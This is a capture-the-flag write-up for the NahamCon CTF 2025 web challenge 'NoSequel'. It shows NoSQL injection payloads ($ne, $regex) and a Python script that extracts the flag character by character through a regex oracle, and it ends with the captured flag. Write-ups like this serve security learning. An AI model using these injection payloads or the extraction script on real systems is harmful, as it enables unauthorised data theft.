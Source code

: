 ```yaml
---
name: NoSequel (2025)
event: NahamCon CTF 2025
category: Web
description: Writeup for NoSequel (Web) - NahamCon CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# NoSequel

## Description

> It always struck me as odd that none of these movies ever got sequels! Absolute cinema.

## Solution

Challenge name suggests we should focus on NoSQL injection 🤔

![](images/0.png)

It even gives us an example! We can check the [Portswigger labs](https://portswigger.net/web-security/nosql-injection) on this topic for some exploitation ideas, [hacktricks](https://book.hacktricks.wiki/en/pentesting-web/nosql-injection.html) for some quick payloads.

When sending:

{% code overflow="wrap" %}
```json
query={"$ne":null}&collection=movies
```
{% endcode %}

The server responds `unknown top level operator: $ne`

If we try and search the `flags` collection, it says `Only regex on 'flag' field is supported`

I tried to change the content-type to JSON and use some different payloads. We also want to test a search query that returns results, e.g. by using a movie title from the homepage. Doing this will give us a "true" condition that we could use to compare results later, if we need to extract the flag char by char.

![](images/1.PNG)

When I try to enter `[$regex]=.{25}` as search query for the `flags` collection, it warns me to use a JSON format.

![](images/2.PNG)

Using that format, we apply a regular expression to see if the flag begins with `flag`.

{% code overflow="wrap" %}
```
flag: {$regex: ^flag}
```
{% endcode %}

![](images/3.PNG)

It does! So we can just write a python script to loop through all possible hex chars, since we know the flag format from previous challenges; `flag{[0-9a-f]{32}}`.

I just finished a 72 hour OSWE exam which required automating exploit chains into a 1-click-pwn script _without_ help from an LLM. Since that is finished, I'll make life easier for myself 😁

{% code overflow="wrap" %}
```python
import requests
import string

# Config
url = "http://challenge.nahamcon.com:31786/search"
charset = "0123456789abcdef"
flag_prefix = "flag{"
flag = flag_prefix
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

def test_candidate(candidate):
    payload = {
        "query": f'flag: {{$regex: ^{candidate}}}',
        "collection": "flags"
    }
    response = requests.post(url, data=payload, headers=headers)
    return "Pattern matched" in response.text

while not flag.endswith("}"):
    found = False
    for ch in charset:
        attempt = flag + ch
        print(f"[?] Trying: {attempt}")
        if test_candidate(attempt):
            print(f"[+] Match: {attempt}")
            flag += ch
            found = True
            break
    if not found:
        print("[-] No match found. Trying closing brace '}'...")
        if test_candidate(flag + "}"):
            flag += "}"
            print(f"[✓] Flag complete: {flag}")
            break
        else:
            print("[-] Could not extend flag — possibly an error.")
            break

print(f"[🏁] Final flag: {flag}")
```
{% endcode %}

It works, we get the flag 😎

![](images/4.PNG)

Flag: `flag{4cb8649d9ecb0ec59d1784263602e686}`
